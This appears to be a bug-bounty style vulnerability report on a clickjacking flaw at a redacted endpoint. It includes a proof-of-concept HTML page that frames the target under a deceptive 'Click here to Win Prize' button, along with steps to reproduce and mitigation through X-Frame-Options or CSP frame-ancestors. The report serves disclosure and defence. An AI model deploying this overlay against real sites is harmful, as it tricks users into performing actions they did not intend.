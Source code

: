 
## Vulnerability Title: ClickJacking Vulnerability on [REDACTED]

---

### Vulnerability Details:
- **Endpoint**: REDACTED
- **Date**: 18 September 2024
- **Type**: ClickJacking  
- **Severity**: Medium
- **Impact**: Attackers can create an invisible iframe overlay of the affected page, tricking users into clicking buttons or links that perform actions on their behalf. This could result in unauthorized actions, data exposure, or account compromises.

### Summary:
The webpage at REDACTED is vulnerable to a ClickJacking attack. ClickJacking is a technique that tricks users into clicking something different from what they perceive, potentially leading to unintended actions such as account hijacking or the execution of malicious tasks.

### Reason:
- The page does not have an appropriate HTTP security header to prevent ClickJacking, such as the `X-Frame-Options` or `Content-Security-Policy` headers that would block it from being embedded in iframes.

---

### Steps to Reproduce:
1. Create an HTML page that embeds REDACTED using an `<iframe>` tag:

   ```html
   <!DOCTYPE html>
   <html>
      <head>
         <title>Clickjacking PoC</title>
         <style>
            iframe {
                opacity: 0.9;
                position: absolute;
                top: 50px;
                left: 50px;
                width: 60%;
                height: 100%;
                z-index: 99;
            }

            input[type="button"] {
                position: absolute;
                top: 233px; /* Adjust to place on top of the iframe */
                left: 180px; /* Adjust to place on top of the iframe */
                z-index: 100; /* This will keep the button above the iframe */
                font-size: 20px;
                padding: 10px 200px;
            }
         </style>
      </head>
      <body>
         <input type=button value="Click here to Win Prize">
         <iframe src="REDACTED"></iframe>
      </body>
   </html>
   ```

2. Host the HTML page on a separate domain.
3. Open the hosted HTML file and observe how the victim page is embedded.
4. Click the button, and the click event will be transferred to the underlying iframe, causing an unintended action on the victim's site.

---

### Mitigation:
- Implement the `X-Frame-Options` header with the value `DENY` or `SAMEORIGIN` to prevent the page from being embedded in iframes.
- Alternatively, implement a `Content-Security-Policy` header with the `frame-ancestors` directive set to `'self'` to restrict which domains can embed the page.
